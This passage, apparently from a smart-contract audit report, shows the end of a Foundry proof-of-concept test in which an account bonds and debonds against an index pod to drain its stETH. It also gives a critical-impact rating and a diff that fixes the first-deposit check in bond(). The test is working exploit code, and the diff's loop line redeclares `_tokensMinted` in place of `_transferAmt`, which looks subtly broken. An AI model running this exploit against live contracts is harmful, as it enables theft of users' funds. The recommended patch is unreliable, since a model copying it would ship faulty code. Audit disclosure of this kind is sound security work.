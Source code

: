 ```solidity
    vm.startPrank(bob);

    usdc.approve(address(index), type(uint256).max);
    steth.approve(address(index), type(uint256).max);

    uint256 stEthIndexBalance = steth.balanceOf(address(index));

    index.bond(address(steth), stEthIndexBalance);

    address[] memory null1;
    uint8[] memory null2;
    index.debond(index.balanceOf(bob), null1, null2);

    console.log("Bob final USDC:", usdc.balanceOf(bob));
    console.log("Bob final stETH:", steth.balanceOf(bob));
    console.log("======================================");

    console.log("Bob stETH difference:", steth.balanceOf(bob) - bobInitialSteth);

    vm.stopPrank();
}
```

#### Impact

Critical. An attacker can steal tokens from the pod.

#### Recommendation

Use the result from `_isFirstIn()`, which is total supply, as the condition to trigger the initial deposit logic.

```diff
    function bond(
      address _token,
      uint256 _amount
    ) external override lock noSwapOrFee {
      require(_isTokenInIndex[_token], 'INVALIDTOKEN');
      uint256 _tokenIdx = _fundTokenIdx[_token];
      uint256 _tokenCurSupply = IERC20(_token).balanceOf(address(this));
+     bool isFirst = _isFirstIn();
-     uint256 _tokenAmtSupplyRatioX96 = _isFirstIn()
+     uint256 _tokenAmtSupplyRatioX96 = isFirst
        ? FixedPoint96.Q96
        : (_amount * FixedPoint96.Q96) / _tokenCurSupply;
-     uint256 _tokensMinted = _tokenAmtSupplyRatioX96 == FixedPoint96.Q96
+     uint256 _tokensMinted = isFirst
        ? (_amount * FixedPoint96.Q96 * 10 ** decimals()) /
          indexTokens[_tokenIdx].q1
        : (totalSupply() * _tokenAmtSupplyRatioX96) / FixedPoint96.Q96;
      uint256 _feeTokens = _canWrapFeeFree()
        ? 0
        : (_tokensMinted * fees.bond) / DEN;
      _mint(_msgSender(), _tokensMinted - _feeTokens);
      if (_feeTokens > 0) {
        _mint(address(this), _feeTokens);
      }
      for (uint256 _i; _i < indexTokens.length; _i++) {
-       uint256 _transferAmt = _tokenAmtSupplyRatioX96 == FixedPoint96.Q96
+       uint256 _tokensMinted = isFirst
          ? getInitialAmount(_token, _amount, indexTokens[_i].token)
          : (IERC20(indexTokens[_i].token).balanceOf(address(this)) *
            _tokenAmtSupplyRatioX96) / FixedPoint96.Q96;
        _transferFromAndValidate(
          IERC20(indexTokens[_i].token),
```